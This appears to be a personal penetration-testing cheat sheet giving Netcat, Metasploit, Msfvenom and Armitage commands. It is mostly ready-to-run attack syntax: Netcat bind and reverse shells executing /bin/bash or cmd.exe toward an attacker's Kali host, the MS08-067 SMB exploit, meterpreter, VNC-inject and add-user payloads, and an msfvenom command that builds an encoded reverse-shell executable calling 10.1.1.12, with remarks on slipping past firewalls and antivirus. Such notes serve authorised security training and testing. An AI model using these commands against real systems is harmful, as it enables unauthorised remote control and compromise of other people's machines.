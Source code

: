 ## Netcat

Installed on all unix by default (macos, linux), default shell command lines.
Can be used like payload and execute a shell in last versions. (on MacOs, can't execute -e directly)

direct connection: when attacker connect and victim listen
reverse connection: when attacker listen and victim connect (not detected by firewalls - antivirus)

Kali:

	nc MACOS/Windows-IP 8888  -e /bin/bash (connect)
	nc  -lvvp 8888 -e /bin/bash (listen)

MacOS:

	nc KALI-IP 8888 (connect - cannot execute -e directly)
	nc -l 8888 (listen - cannot execute -e directly)

Windows:

	nc KALI-IP 8888 -e cmd.exe (connect)
	nc  -lvvp 8888 -e cmd.exe (listen)

## Metasploit

sudo msfdb init && msfconsole

Exploits:

	search exploit/osx
	
	use exploit/osx/...
	show info
	
	options
	set options value
	
	set payload [TAB] (payload compatible with exploit)
	set payload osx/meterpreter/reverse_tcp
	options
	show info (payload max space, rank)
	
	exploit (run exploit & active payload)
	
	use exploit/windows/smb/ms08_067_netapi (smb exploit)
	
	use exploit/multi/handler (listener)

## Payloads

Add user:

	set payload windows/adduser
	options
	show target (if don't autodetect)
	set target ...

## Meterpreter:

	set payload windows/meterpreter/bind_tcp (direct connection)
	set payload windows/meterpreter/reverse_tcp (reverse connection (bypass firewall))
	set payload windows/meterpreter/reverse_http (reverse connection - tunelize on http port)

## VncInject:

	set payload windows/vncinject/reverse_tcp (reverse connection -  remote access (visible on target screen))

## Shell:

	set payload windows/shell/reverse_tcp (reverse connection - light payload - shell (used to execute meterpreter))
	send shell on background

## Auxilary:

https://www.offensive-security.com/metasploit-unleashed/auxiliary-module-reference/

```bash
use auxilary/scanner/discovery/arp_sweep (scanner ARP)
show_info
set rhosts 10.1.1.0/24
run

use auxilary/scanner/smb/pipe_auditor (check if smb is active to run exploit like netapi)
```

## Add modules to metasploit:

Terminal:

```bash
mkdir /usr/share/metasploit-framework/modules/exploits/custom/
cd /usr/share/metasploit-framework/modules/exploits/custom/
wget https://gist.githubusercontent.com/todb-r7/5935519/raw/f18d6b0dcd94d135a567e5b50a9b1cab3a1c5e1b/test_module.rb  (module used for test => https://gist.github.com/todb-r7/5935519)

can add new modules in each directories (exploits/custom, aucilary/custom, etc.) (custom modules have to be in ruby, .rb)
```

Metasploit:

	reload_all (on metasploit console to load new exploit or restart metasploit)
	use exploit/custom/test_module

# External Tools

## Msfvenom

Payload generation:

	msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.1.1.12 lport=4545 -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe -o test.exe
	
	-a: x86/x64
	--platform: platform
	-p: payload
	-lhost: kali ip
	-lport: port
	-e: encoder
	-b: bad caracter to encode

## Metasploit

	use exploit/multi/handler (listener)
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.1.1.12
	set lport 4545 
	run

## Armitage

GUI client for Metasploit, automated tools. (not complete like real metasploit)

Can be used for scaning (auxilary modules, nmap, etc...), detect OS and find vulnerabilities for this system, but is better to run the exploits from metasploit command lines.

	Attacks => Find attacks (find vulnerabilities for this system)
	Attacks => Hail Mary  (autopwn - run all compatible exploits - very agressive - should not be used)